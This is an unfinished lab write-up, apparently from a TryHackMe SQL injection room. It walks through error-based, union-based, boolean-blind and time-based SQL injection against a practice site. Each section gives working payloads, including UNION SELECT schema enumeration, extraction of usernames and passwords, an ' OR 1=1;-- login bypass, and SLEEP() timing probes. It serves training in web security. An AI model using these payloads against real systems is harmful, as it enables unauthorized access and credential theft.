Write-up in progress...


# SQL Injection (SQLi)

SQL Injection is a web application vulnerability that occurs when user input is directly included in SQL queries without proper sanitization or parameterization.

This allows an attacker to manipulate database queries and potentially access, modify or delete sensitive data.

---

# 1. Introduction

SQL Injection (SQLi) happens when an application fails to properly validate user input before using it in a SQL query.

## Why it happens

- Unsanitized user input is concatenated into SQL queries
- Lack of parameterized queries (prepared statements)
- Trusting client-side input

## Security Impact

SQL Injection can allow attackers to:

- Bypass authentication
- Extract sensitive data (users, passwords, etc.)
- Modify or delete database records
- In some cases, achieve remote code execution (RCE)

---

# 2. In-Band SQL Injection

In-Band SQL Injection is a type of SQL Injection where both the exploitation and data retrieval occur through the same communication channel (e.g., HTTP response).

This makes it one of the easiest types of SQL Injection to detect and exploit.

It is commonly divided into:

- Error-Based SQL Injection
- Union-Based SQL Injection

---

## 2.1 Error-Based SQL Injection

Error-based SQL Injection relies on forcing the database to return error messages that reveal information about its structure.

---

### Detection

The vulnerability was identified in the `id` parameter of the following endpoint:

```
https://website.thm/article?id=1
```

To test for SQL Injection, a single quote (`'`) was injected into the parameter:

```
https://website.thm/article?id=1'
```

This caused a database error, confirming that the input is directly included in a SQL query without proper sanitization.

---

### Evidence



The application returns a SQL syntax error when malformed input is provided.

---

### Explanation

The error occurs because the application concatenates user input directly into an SQL query. When the query structure is broken using special characters (such as `'`), the database returns an error message that leaks internal information.

This confirms the existence of an Error-Based SQL Injection vulnerability.

---

### Security Impact

Error messages from the database can expose internal structure and help attackers enumerate the database schema.

---
## 2.2 Union-Based SQL Injection

Union-Based SQL Injection allows an attacker to combine the results of two SQL queries using the `UNION` operator. This technique is commonly used to extract data directly from the database.

---

### Identifying the number of columns

To successfully use `UNION SELECT`, the number of columns in the original query must match the injected query.

Different payloads were tested:

```sql
?id=1 UNION SELECT 1
?id=1 UNION SELECT 1,2
?id=1 UNION SELECT 1,2,3
```

The correct number of columns was identified as **3**, as the query stopped returning errors at this stage.



---

### Forcing output display

By default, the application displays the first result of the original query. To overwrite this behavior, the original query result was neutralized:

```sql
0 UNION SELECT 1,2,3
```

This allowed the injected values to be displayed directly in the response.



---

### Extracting database name

The database name was retrieved using the built-in SQL function `database()`:

```sql
0 UNION SELECT 1,2,database()
```

This revealed the active database being used by the application.



---

### Enumerating database tables

The `information_schema` database was used to retrieve table names:

```sql
0 UNION SELECT 1,2,group_concat(table_name)
FROM information_schema.tables
WHERE table_schema = 'sqli_one'
```

This query lists all tables accessible in the current database schema.

Result included tables such as:
- article
- staff_users



---

### Enumerating columns

Once the relevant table (`staff_users`) was identified, its structure was enumerated:

```sql
0 UNION SELECT 1,2,group_concat(column_name)
FROM information_schema.columns
WHERE table_name = 'staff_users'
```

This revealed the following columns:
- id
- username
- password



---

### Extracting credentials

Finally, user credentials were extracted using concatenation techniques:

```sql
0 UNION SELECT 1,2,
group_concat(username,':',password SEPARATOR '<br>')
FROM staff_users
```

This returned all usernames and passwords stored in the table.



---

### Why this works

The vulnerability exists because the application directly concatenates user-controlled input into SQL queries without proper sanitization or parameterization.

As a result, attackers can manipulate the structure of the original query and inject additional SQL statements such as `UNION SELECT`.

---

### Security Impact

Union-Based SQL Injection can allow attackers to:

- Enumerate database structures
- Discover table and column names
- Extract sensitive information
- Retrieve usernames and passwords
- Access confidential application data
- Potentially escalate attacks depending on database privileges

---

# 3. Blind SQL Injection – Authentication Bypass

Blind SQL Injection occurs when the application does not directly return database errors or query results to the user.

Even without visible feedback, it is still possible to manipulate SQL queries and infer whether an injection attempt was successful based on the application's behavior.

---

## Authentication Bypass

One of the most common uses of Blind SQL Injection is bypassing authentication mechanisms such as login forms.

In these scenarios, the objective is not to extract data directly from the database, but rather to manipulate the application's authentication logic to gain unauthorized access.

---

### Original query structure

The login form sends user-controlled input to the following SQL query:

```sql
SELECT * FROM users
WHERE username='%username%'
AND password='%password%'
LIMIT 1;
```

The application checks whether the query returns a valid user record.

If the query returns `TRUE`, access is granted.

---

### SQL Injection payload

The following payload was injected into the password field:

```sql
' OR 1=1;--
```

This modifies the SQL query into:

```sql
SELECT * FROM users
WHERE username=''
AND password=''
OR 1=1;
```

Because `1=1` always evaluates to `TRUE`, the query returns a valid result regardless of the supplied credentials.

As a result, the authentication check is bypassed.





---

### Why this works

The vulnerability exists because user-controlled input is directly concatenated into the SQL query without proper validation or parameterization.

The injected payload alters the logic of the original query by introducing a condition that always evaluates to `TRUE`.

This causes the database to return a successful authentication result even when invalid credentials are supplied.

---

### Security Impact

Authentication bypass vulnerabilities can allow attackers to:

- Access restricted areas of the application
- Impersonate legitimate users
- Escalate privileges
- Gain unauthorized access to sensitive data

---

# 4. Blind SQL Injection – Boolean-Based

Boolean-Based Blind SQL Injection relies on observing differences in the application's responses to determine whether an injected SQL query evaluates to `TRUE` or `FALSE`.

Although no database errors or query results are directly displayed, attackers can still enumerate database information by analyzing application behavior.

---

## Target endpoint

The vulnerable endpoint exposed the following functionality:

```http
https://website.thm/checkuser?username=admin
```

The application returned responses such as:

```json
{"taken":true}
```

or

```json
{"taken":false}
```

This behavior created a boolean condition that could be used to infer database information.




---

## Original query structure

The backend query processed user-controlled input as follows:

```sql
SELECT * FROM users
WHERE username='%username%'
LIMIT 1;
```

Because the application directly concatenated user input into the SQL query, it became vulnerable to SQL Injection.

---

## Identifying the number of columns

The `UNION SELECT` technique was used to determine the number of columns required by the original query.

Example payloads:

```sql
admin123' UNION SELECT 1;--
```

```sql
admin123' UNION SELECT 1,2,3;--
```

The application returned a positive boolean response when using three columns, confirming the correct query structure.



---

## Enumerating the database name

The `LIKE` operator was used alongside wildcard characters (`%`) to infer the database name character by character.

Example payload:

```sql
admin123' UNION SELECT 1,2,3
WHERE database() LIKE 's%';--
```

A `TRUE` response confirmed that the database name started with the letter `s`.

This process was repeated iteratively until the full database name was identified as:

```text
sqli_three
```



---

## Enumerating table names

The `information_schema.tables` table was queried to enumerate database tables.

Example payload:

```sql
admin123' UNION SELECT 1,2,3
FROM information_schema.tables
WHERE table_schema='sqli_three'
AND table_name LIKE 'u%';--
```

This confirmed the existence of the `users` table.



---

## Enumerating column names

Column names were enumerated using the `information_schema.columns` table.

Example payload:

```sql
admin123' UNION SELECT 1,2,3
FROM information_schema.columns
WHERE table_schema='sqli_three'
AND table_name='users'
AND column_name LIKE 'u%';--
```

The following columns were identified:

- id
- username
- password







---

## Enumerating credentials

The same boolean inference technique was used to identify valid usernames and passwords.

Example payload:

```sql
admin123' UNION SELECT 1,2,3
FROM users
WHERE username='admin'
AND password LIKE '3%';--
```

By iterating through characters one at a time, the password was successfully enumerated.



---

## Why this works

The application does not directly display SQL errors or query results, but it still exposes differences in behavior based on whether injected conditions evaluate to `TRUE` or `FALSE`.

Attackers can leverage these boolean responses to infer database structure and contents one character at a time.

---

## Security Impact

Boolean-Based Blind SQL Injection can allow attackers to:

- Enumerate database structures
- Extract sensitive data
- Identify valid usernames
- Recover credentials
- Gain unauthorized access to applications

---

# 5. Blind SQL Injection – Time-Based

Time-Based Blind SQL Injection relies on measuring server response times to determine whether an injected SQL query evaluates to `TRUE` or `FALSE`.

Unlike Boolean-Based SQL Injection, no visual indication is returned by the application. Instead, successful payloads introduce an intentional delay using functions such as `SLEEP()`.

---

## Concept

The attacker injects SQL conditions that trigger a time delay only when the injected statement is valid.

If the server response is delayed, the attacker can infer that the condition evaluated to `TRUE`.

If there is no delay, the condition evaluated to `FALSE`.

---

## Identifying the number of columns

The `SLEEP()` function was used together with `UNION SELECT` to determine the correct number of columns required by the query.

Initial payload:

```sql
admin123' UNION SELECT SLEEP(5);--
```

No delay was observed, indicating that the query structure was invalid.

A second payload was tested:

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

This time, the server response was delayed by approximately five seconds, confirming that the query required two columns.



